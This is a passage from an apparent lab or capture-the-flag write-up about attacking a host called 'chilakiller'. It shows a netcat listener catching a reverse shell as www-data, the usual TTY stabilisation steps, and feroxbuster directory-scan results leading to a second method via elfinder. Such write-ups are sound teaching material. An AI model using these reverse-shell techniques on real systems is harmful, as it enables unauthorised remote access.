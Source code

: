 After setting up the listener and running the command we get the shell.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~]
└──╼[★]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.66.66.230] from (UNKNOWN) [10.150.150.182] 58148
bash: cannot set terminal process group (781): Inappropriate ioctl for device
bash: no job control in this shell
www-data@chilakiller:/var/www/html/restaurante$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<te$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@chilakiller:/var/www/html/restaurante$ export TERM=xterm
export TERM=xterm
www-data@chilakiller:/var/www/html/restaurante$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                            
┌──[10.66.66.230]─[sirius💀parrot]-[~]
└──╼[★]$ stty raw -echo; fg              
[1]  + continued  nc -lvnp 9001

www-data@chilakiller:/var/www/html/restaurante$
```

### Method #2 (elfinder)

The other directories we find on the website gave us 403 forbidden, but running a recursive scan gives us more results.

```terminal
 ___  ___  __   __     __      __         __   ___                          
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___                           
by Ben "epi" Risher 🤓                 ver: 2.11.0                           
───────────────────────────┬──────────────────────                           
 🎯  Target Url            │ http://10.150.150.182                           
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!                                                 
 💥  Timeout (secs)        │ 7       
 🦡  User-Agent            │ feroxbuster/2.11.0                                                
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4                                                                 
───────────────────────────┴──────────────────────                          
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
 😱 no more active scans... exiting
200      GET       25l       69w      612c http://10.150.150.182/
301      GET        9l       29w      316c http://10.150.150.182/SiteMap => http://10.150.150.182/SiteMap/
301      GET        9l       29w      314c http://10.150.150.182/Sites => http://10.150.150.182/Sites/
301      GET        9l       29w      313c http://10.150.150.182/TEMP => http://10.150.150.182/TEMP/
301      GET        9l       29w      326c http://10.150.150.182/TEMP/address_book => http://10.150.150.182/TEMP/address_book/
301      GET        9l       29w      333c http://10.150.150.182/TEMP/address_book/addmin => http://10.150.150.182/TEMP/address_book/addmin/
301      GET        9l       29w      315c http://10.150.150.182/manual => http://10.150.150.182/manual/
301      GET        9l       29w      320c http://10.150.150.182/restaurante => http://10.150.150.182/restaurante/
301      GET        9l       29w      318c http://10.150.150.182/test-site => http://10.150.150.182/test-site/
```
